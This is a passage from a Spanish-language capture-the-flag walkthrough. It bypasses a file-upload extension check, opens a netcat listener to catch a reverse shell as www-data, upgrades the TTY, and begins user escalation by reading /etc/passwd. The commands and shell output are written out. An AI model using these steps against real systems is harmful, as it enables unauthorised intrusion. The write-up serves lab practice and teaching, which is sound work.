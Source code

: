 Lo guardamos y ahora probaremos a subirlo, cuando le demos a subir y lo enviemos, veremos que nos pone el siguiente mensaje:

```
Archivo subido con éxito.
```

Por lo que vemos hemos podido `bypassear` la extension del archivo y si recordamos anteriormente en el `gobuster` tenemos un directorio llamado `/uploads` por lo que iremos a el que es donde seguramente este ese archivo.

```
URL = http://<IP>/uploads/
```

Vemos que efectivamente esta nuestro archivo, pero antes de pulsarlo nos pondremos a al escucha.

```shell
nc -lvnp <PORT>
```

Y si ahora pulsamos el archivo en la web, y volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.186] from (UNKNOWN) [172.17.0.2] 59450
whoami
www-data
```

Vemos que somos el usuario `www-data`, por lo que tendremos que sanitizar un poco la shell.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user luisillo

Vemos que esta el siguiente usuario en el sistema.

```shell
cat /etc/passwd | grep "/bin/sh"
```
